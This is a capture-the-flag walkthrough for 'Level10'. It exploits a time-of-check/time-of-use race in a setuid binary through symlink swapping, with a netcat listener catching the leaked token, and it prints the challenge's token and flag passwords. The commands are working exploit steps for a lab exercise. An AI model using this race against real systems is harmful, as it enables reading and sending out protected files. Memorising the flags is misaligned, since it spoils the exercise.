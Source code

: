 

# **Level10**

### **Walk through**

Once again, we have a binary `level10` and a file `token`

`./level10`   
```
$> ./level10 file host  
        sends file to host if you have access to it  
```
We have the same output with `./level10 token`.

`./level10 token 192.168.56.101`  
		`You don't have access to token`

Not so many clues of how to proceed at this point. If we `strings level10` we can read:

```
...
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/usr/lib/gcc/i686-linux-gnu/4.6/include
...
```

We see that something is listening on the port **6969**, we also notice that a file (maybe **token**) is sent but can't be read..

`strace ./level10` will give us the list of all system calls:

```
...
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fdb000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=21440, ...}) = 0
mmap2(NULL, 21440, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fd5000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0000\226\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1730024, ...}) = 0

...
```

This command gives us precious clues. Indeed, we can notice that there's a call to access and then another one to open. Reading the man of access (*man 2 access*) :

```
Warning:  Using  access()  to  check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the  short  time  interval between  checking  and  opening  the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be  to  temporarily  switch the process's effective user ID to the real ID and then call open(2).)

access()  always  dereferences  symbolic links.  If you need to check the permissions on a symbolic link, use faccessat(2) with the flag AT_SYMLINK_NOFOLLOW.
```

 In other words, we're facing a [**Time of check to time of use**](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use). This [**documentation**](https://stackoverflow.com/questions/14333112/access2-system-call-security-issue) gives us more information about that.

What we have to do now is to find a way to exploit that security hole. To do so, we will spam access with a loop. but first, let's open three seperate terminal windows.

In the first:

``nc -lk 6969``

In a second one:

`while true; do ln -s /home/user/level10/token /tmp/link; rm -f /tmp/link; touch /tmp/link; rm -f /tmp/link; done` 

And finally in the third one:

`while true; do ./level10 /tmp/link 192.168.56.101; done`

Looking at the first terminal, we will see the flag : 

```
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
```

Using that flag with `su flag10` and doing `getflag` gives us **`feulo4b72j7edeahuete3no7c`**

We will use it to log as level11

`su level11`
